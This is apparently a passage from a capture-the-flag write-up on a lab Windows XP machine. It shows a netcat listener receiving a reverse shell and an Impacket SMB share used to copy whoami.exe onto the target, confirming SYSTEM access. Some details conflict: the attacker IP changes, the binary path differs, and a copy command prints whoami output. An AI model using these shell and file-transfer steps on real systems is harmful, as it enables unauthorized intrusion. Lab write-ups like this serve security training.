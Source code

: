 And we get a shell:

```
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.4] 1031
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

`Windows XP` doesn't have a `whoami` command. So, how can we know which kind of user are we?

```
C:\WINDOWS\system32>whoami
whoami
'whoami' is not recognized as an internal or external command,
operable program or batch file.
```

Kali has a `whoami.exe` by default under `/usr/share/windows-resources/binaries`. We can share the executable with the target machine via SMB:

```
python3 /opt/impacket/examples/smbserver.py whoami /usr/share/windows-binaries/
Impacket v0.9.19 - Copyright 2018 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Where `whoami` is the share name and `/usr/share/windows-binaries/` its path.

On the target:

```
C:\WINDOWS\system32>copy \\10.10.14.14\whoami\whoami.exe
NT AUTHORITY\SYSTEM
```

**Note**: flags are under `C:\Documents and Setting\john` and `C:\Documents and Setting\Administrator`.
